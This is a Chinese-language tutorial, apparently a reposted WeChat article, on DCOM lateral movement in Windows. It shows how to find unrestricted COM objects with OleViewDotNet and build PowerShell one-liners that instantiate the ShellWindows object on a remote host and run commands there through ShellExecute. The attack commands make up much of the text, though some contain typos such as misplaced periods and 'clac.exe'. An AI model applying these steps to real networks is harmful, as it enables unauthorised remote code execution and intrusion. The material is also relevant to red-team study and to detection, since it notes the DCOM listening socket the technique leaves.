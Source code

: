 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1-1tXKu_o2ceeelOurEUfQ)

在第一篇横向移动中我们使用了 MMC20.APPLICATION COM 对象来进行横向移动，其实我们可以思考一个问题，微软的 COM 不只有 MMC20.APPLICATION。

```
https://docs.microsoft.com/en-us/windows/win32/com/com-technical-overview
Microsoft组件对象模型（COM）定义了一个二进制互操作性标准，用于创建在运行时进行交互的可重用软件库。您可以使用COM库，而无需将其编译到应用程序中。
```

那么是不是还存在别的 COM 模型给我们去利用？我们还可以思考一个问题：

```
我们只能利用来进行横向移动吗？
```

显然答案是否定的。

然后我们还应该思考一个问题：为什么在如此多的 COM 程序中，MMC20.APPLICATION 能成为一个利用点？也就是说成为一个利用点的要素是什么？

```
远程链接
可控性
.....
```

如果想要找到更多的利用点，我们的知道微软的所有的 COM 程序。通过阅读微软的文档我们知道可以在注册表中找到所有的 COM 程序。

```
https://docs.microsoft.com/en-us/windows/win32/com/registering-com-applications
注册表维护有关系统中安装的所有COM对象的信息。每当应用程序创建COM组件的实例时，都会查询注册表以将组件的CLSID或ProgID解析为包含它的服务器DLL或EXE的路径名。
确定组件的服务器后，Windows会将服务器加载到客户端应用程序的进程空间中（进程内组件），或者在自己的进程空间中启动服务器（本地和远程服务器）。
服务器创建组件的实例，并向客户端返回对组件接口之一的引用。
```

这里我们需要使用一个工具来帮助我们去查找

```
https://github.com/tyranid/oleviewdotnet/releases/tag/v1.11
OleViewDotNet是一个.NET 4应用程序，提供了一个工具，该工具合并了经典的SDK工具将OleView和测试容器集成到一个应用程序中。
它允许您通过以下方式查找COM对象枚举许多不同的视图（例如，按CLSID，按ProgID，按服务器可执行文件）接口在对象上，然后创建实例并调用方法。
它也有一个基本的攻击ActiveX对象的容器，这样您就可以在操作时看到显示输出数据。
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBrichswjOLcDovdPc33hnjNbN9tTMWibYG2oFUmAsWIyictwFWWgsW7ZNdFKPe65iaV8sXfX5nUQiaiaFw/640?wx_fmt=jpeg)  

如何快速地找到可以利用的 COM 程序呢。

从第一篇中我们知道

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBrichswjOLcDovdPc33hnjNGpHyl86MVSyEvWsRI9zicIaQNXe8pCNLhca41icicREUJbz7zHDTEy4bQ/640?wx_fmt=jpeg)

那么我们可以查找那些具有没有限制的 COM 程序 (LAnunchPermission == None)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBrichswjOLcDovdPc33hnjNcR9Rtjz9icDUY5Fl4WKGWL2pL2VswtRlSnHGSzTBlZAcgxXfw67X7YA/640?wx_fmt=jpeg)

还有一种方法就是：

```
查找HKCR：\ AppID \ {guid}中的键缺少的值“ LaunchPermission”。设置了“启动许可”的对象将如下所示，其中的数据代表二进制格式的对象的ACL：
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBrichswjOLcDovdPc33hnjNq5BslTPZgAQa95iaztxqqiasvQGYBrnuCHDcgYUFBqgXia82fhDTgRpfw/640?wx_fmt=jpeg)

没有明确设置 LaunchPermission 的用户将没有该特定注册表项。

我们可以看到 shellwindows 和 shellBrowserWindows 都好像存在利用点。那么我们可以开始构造利用语法：

```
$a = [type]::GetTypeFromProgID("shellwindows")
$b = [activator]::createInstance($a) | get-member
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBrichswjOLcDovdPc33hnjNrK4MsrX9rGAzticicJFnlmeMibHibmNzDm6UBABvTZ8zUpKfCalv5dFoZA/640?wx_fmt=png)

意思就是说 $a 中的值不是一种值，具有不确定性。我们回看到 $a 中，我们发现 GetTypeFromProgID 可能存在问题：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBrichswjOLcDovdPc33hnjNepqHxiaQ1z8R7HibZh1bCiaib6CFsiaAXAMewticEIgyRQIJjiaoGZvictpjgQ/640?wx_fmt=png)

从微软文档中我们可以看到 GetTypeFromProgID 需要指定一个 ProgID 值，而 Shellwindows 明显不是 ProgID 值，所以没办法定位到。

所以我们得使用一种新的方法去定位我们想要的东西。在翻看微软的文档后

```
https://docs.microsoft.com/en-us/windows/win32/com/com-technical-overview
接口是强类型的。每个接口都有其自己的唯一接口标识符，称为IID，它消除了人类可读名称可能发生的冲突。IID是全局唯一标识符（GUID）
```

GUID 具有唯一性，我们可以使用 Guid 了定位。

```
https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=net-5.0
GetTypeFromCLSID（向导，字符串，布尔值）
从指定的服务器获取与指定的类标识符（CLSID）关联的类型，并指定在加载类型时发生错误时是否引发异常。
Type GetTypeFromCLSID (Guid clsid, string server, bool throwOnError);
```

然后在 Oleview.NET 中我们能找到 Guid 值

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBrichswjOLcDovdPc33hnjNpeYq8ZL4yg99UmZNziauKvOicpZgXKqVS3mriaS77mDGKuU6YMicCMeCLQ/640?wx_fmt=jpeg)

构造一下利用语法

```
$a = [type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39"."10.10.10.10") | get-member
$a
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBrichswjOLcDovdPc33hnjNNKeVelx6aKNPdpUR70ZlEFoTm5t3z9bac9hxXsQVJeDYeCpBKXjVrA/640?wx_fmt=png)

在上一篇中，我们说到翻东西，其实翻东西也是有 TIps 的。例如优先看是否以下的东西

```
Shell
Execute
Navigate
DDEInitiate
CreateObject
RegisterXLL
ExecuteLine
NewCurrentDatabase
Service
Create
Run
Exec
Invoke
File
Method
Explore
```

ok 翻东西不多说

我们拿到了 ShellWindows 对象，下一步加油实例化该对象。

```
$a =  [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","10.10.10.10")).Document | Get-member
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBrichswjOLcDovdPc33hnjNfpR0zHzlp6BAcicVYSmGKHzmvP4EQ9sUKpOiatqyBPNqZ5Lu0sSl38TQ/640?wx_fmt=png)

通过在远程主机上实例化对象，我们可以与该对象进行接口并调用所需的任何方法。返回给该对象的句柄揭示了几种方法和属性，我们无法与它们进行交互。为了实现与远程主机的实际交互，我们需要使用 WindowsShell.Item 方法，它将为我们提供一个代表 Windows Shell 窗口的对象：

```
https://docs.microsoft.com/zh-cn/windows/win32/shell/shellwindows-item?redirectedfrom=MSDN
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBrichswjOLcDovdPc33hnjNaxjbbO6fzziaXbIYE0WDiaMLwZnKichAhF55rKsic5bQykpfJic0lOMSqWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBrichswjOLcDovdPc33hnjN4Qy39ZgZ5hIGWBkFxe6eic7GAVRYTotpY9Gf7o4E7htrBs1EVkwcWCQ/640?wx_fmt=png)

有了 Shell Window 的完整句柄，我们现在可以访问所有公开的预期方法 / 属性。通过这些方法后，

我们看到 “Document.Application.ShellExecute”。确保遵循该方法的参数要求，

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBrichswjOLcDovdPc33hnjNfSVBAQlRAIYTCZ3yKmpOVFzoAqIznoUTBfibicVhiatw8DONXmiagRzEvg/640?wx_fmt=png)

```
https://docs.microsoft.com/zh-cn/windows/win32/shell/shell-shellexecute?redirectedfrom=MSDN
```

```
$a =  [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","10.10.10.10")).Document.Application.ShellExecute("cmd.exe","/c clac.exe"."c:\windows32\system",$null,0)
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBrichswjOLcDovdPc33hnjNrmM6Lp3fzxC9YicnuL3mZhia1YQbNgJR8mtpCqP2iaAtJZJ9sGlZQmkQw/640?wx_fmt=jpeg)

与大多数其他方法不同，ShellWindows 不会创建进程。相反，它会激活现有 explorer.exe 进程内部的类实例，该进程执行子进程。为了进行通信，主机 explorer.exe 在 DCOM 端口上打开了一个侦听套接字，该套接字应明确标记此技术。

除了上面的，公开的利用方法还有很多，我们自己也可以按照思路去发现一些新的手法。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDDJOZL7vdiayia2sqvjTN70cUW7agxb7HLUicnYvpZjl0gZzWnaOuKS0DicNcEz2B4FbdZep983wp69OQ/640?wx_fmt=jpeg)